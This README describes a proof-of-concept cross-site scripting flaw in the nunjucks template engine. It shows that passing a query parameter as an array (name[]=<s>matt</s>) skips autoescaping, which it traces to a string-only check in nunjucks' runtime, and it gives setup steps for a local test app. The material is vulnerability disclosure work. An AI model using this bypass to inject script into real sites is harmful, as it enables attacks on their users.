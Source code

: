 # nunjucks XSS test example
This is a POC for an xss from the nunjucks template engine. 

##POC;
1.  git clone https://github.com/matt-/nunjucks_test
1.  npm install
1.  npm start
1.  visit: `http://127.0.0.1:3000/?name[]=<s>matt</s>`

Name in the template shold be escaped but because we force the item into an array encoding is skipped.

##Details;

This applicaiton is running with a nunjucks as the view template and *autoescape* enabled.
```javascript
var env = nunjucks.configure('views', {
    autoescape: true,
    express: app
});
```

This means all template vars should be auto escaped so in the following example username will be escaped. 

```javascript
app.get('/', function(req, res) {
    res.render('index.html', { username: req.query.name });
});
```

```
<!-- index.html -->
Hello, {{ username | default('bob') }}!
```

If we visit `http://127.0.0.1:3000/?name=<s>matt</s>` the name is encoded as expected. 

Express uses "qs" to parse query paramaters. That means express supports parsing arrays using a [] notation:
`http://127.0.0.1:3000/?name[]=<s>matt</s>`

This results in: 
`req.query.name = ['<s>matt'];`

Note: You would get the same result from body-parser (or simply parsing a user param from json)

However in https://github.com/mozilla/nunjucks/blob/master/src/runtime.js#L209 nunjucks does an explicit check for a string. 

```javascript
function suppressValue(val, autoescape) {
    val = (val !== undefined && val !== null) ? val : '';

    if(autoescape && typeof val === 'string') {
        val = lib.escape(val);
    }

    return val;
}
```

Because we forces the name param to be an array nunjucks skips ptoperly encoding this value. Because of this visiting:  `http://127.0.0.1:3000/?name[]=<s>matt</s>` will reflect the name param without any encoding.

